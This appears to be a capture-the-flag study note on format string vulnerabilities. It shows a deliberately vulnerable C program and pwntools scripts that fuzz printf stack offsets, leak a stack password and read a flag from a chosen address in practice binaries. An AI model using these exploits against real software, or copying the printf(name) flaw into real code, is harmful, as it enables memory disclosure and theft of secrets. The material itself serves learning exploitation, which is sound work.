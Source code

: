 # Format String Exploits

A format string vulnerability is a bug where user input is passed as the format argument to printf, scanf, or another function in that family.

The format argument has many different specifiers which could allow an attacker to leak data if they control the format argument to printf. Since printf and similar are variadic functions, they will continue popping data off of the stack according to the format.

Example:
```c
#include <stdio.h>
#include <unistd.h>

int main() {
    int secret_num = 0x8badf00d;

    char name[64] = {0};
    read(0, name, 64);
    printf("Hello ");
    printf(name);
    printf("! You'll never get my secret!\n");
    return 0;
}
```
Due to how GCC decided to lay out the stack, secret_num is actually at a lower address on the stack than name, so we only have to go to the 7th "argument" in printf to leak the secret:

```bash
$ ./fmt_string
%7$llx
Hello 8badf00d3ea43eef
! You'll never get my secret!
```

# Format Strings - Arbitrary Read 
## TYPE 1
In basic lavel we just have to leak the memory ,here is an example :

![image](https://github.com/user-attachments/assets/d07c0a0f-788b-40bb-8aa7-8e475989ae2d)

Here we are getting the same thing that we are inputing lets try %x,%p,%s,%llx to find is it a formatstring vurnabilty.
![image](https://github.com/user-attachments/assets/e1c95c23-f0de-41ee-8ed1-48af83ec08eb)
yes it is, lets leak more
```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

for i in range(1,50):
    io = process('./fmt_read')
    payload = f'%{i}$p'
    io.sendline(payload)
    print(io.recvall())
```
OR 
```py
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./format_vuln', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        # Receive the response
        result = p.recvuntil(b'> ')
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```
![image](https://github.com/user-attachments/assets/f4d233c0-3c8e-4c11-8d65-ab6f7a144efc)

And After From Hex the password is : Pa$$w0rd_1s_0n_Th3_St4ck
![image](https://github.com/user-attachments/assets/5d1d462a-8acd-4ac7-87e7-8416602aceec)


## TYPE 2
Here is a another type after the password there is another input
![image](https://github.com/user-attachments/assets/02d92cac-7c24-4bf1-b5ea-ac8facc20fa9)
Lets check
![image](https://github.com/user-attachments/assets/c5a9b899-a84d-425f-9769-dc3e1b070d82)
Yes we can do the same but now our task is to leak flag from the given address . so is short wht we have to do is we have to find the offset and put the flag address to leak the flag .

![image](https://github.com/user-attachments/assets/0797952a-ee32-45f0-abf6-6146fd4d3823)

```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

for i in range(1,50):
    io = process('./fmt_read')
    io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
    payload = f'AAAAAAAA.%{i}$p'
    io.sendline(payload)
    print(io.recvall(),i)
    io.close()
```
Here 16 is our offset.So lets find the flag.
![image](https://github.com/user-attachments/assets/ba9ecc61-46cf-427a-b3d3-1923529208ca)
Here we go 
```py
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'


io = process('./fmt_read')
io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
payload = b'%17$sAAA' + p64(0x404080)
io.sendline(payload)
io.interactive()


# nm ./fmt_read  fr address
```

